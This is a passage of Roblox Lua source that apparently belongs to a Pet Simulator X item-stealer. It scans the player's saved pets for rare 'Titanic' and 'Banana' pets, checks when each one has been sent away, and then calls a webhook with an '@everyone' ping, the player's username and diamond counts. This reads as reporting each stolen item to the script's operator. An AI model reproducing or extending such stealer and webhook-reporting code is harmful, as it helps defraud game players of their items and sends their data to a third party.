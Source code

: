             SendWebhook(":scream:  **TITANIC** :scream:", titanicname, "@everyone OMFG", DiamondsCount, FinalList,
                titanicimg, UserName)
            givediaamt = 0
            DiamondsCount = 0
            titanicnumber = titanicnumber + 1
            DiamondsDiamonds = 0
            FinalFinal = 0
        elseif Tcc == 0 or FinalList == 0 then
            TList = {}
            -- print("done1")
            break
        end
        WTianicList = {}
        WTList = {}
        WTcc = {}
        wait(1)
    end
end)

local Bcc = #BList
WBananaList = {}
WBList = {}
WBcc = {}

spawn(function()
    while wait() do
        WLibrary = require(game:GetService("ReplicatedStorage").Framework:FindFirstChild("Library"))
        WFunctions = WLibrary.Functions
        table.foreach(WLibrary.Directory.Pets, function(i, v)
            if v.name == "banana" then
                table.insert(WBananaList, i)
            end
        end)
        local Wpets = require(game:GetService("ReplicatedStorage").Library.Client.Save).Get().Pets
        local Wy = {}
        for i, v in pairs(Wpets) do
            Wy[v["uid"]] = false
        end
        for i, v in pairs(Wpets) do
            if table.find(WBananaList, v["id"]) ~= nil then
                table.insert(WBList, v["uid"])
                table.insert(WBcc, v["id"])
            end
        end
        if Bcc == #WBList + 1 then
            -- print("Banana Has Been Sent")
            Bcc = #BList
            FinalList = FinalList - 1
            local diamonds = givediaamt
            local banananame = "Banana"
            local bananaimg = "rbxassetid://10946336703"
            SendWebhook(":banana: **BANANA** :banana:", banananame, "@everyone", DiamondsCount, FinalList, bananaimg,
                UserName)
            givediaamt = 0
            DiamondsCount = 0
            DiamondsDiamonds = 0
            FinalFinal = 0
        elseif Bcc == 0 or FinalList == 0 then
            BList = {}
            -- print("done2")
            break
        end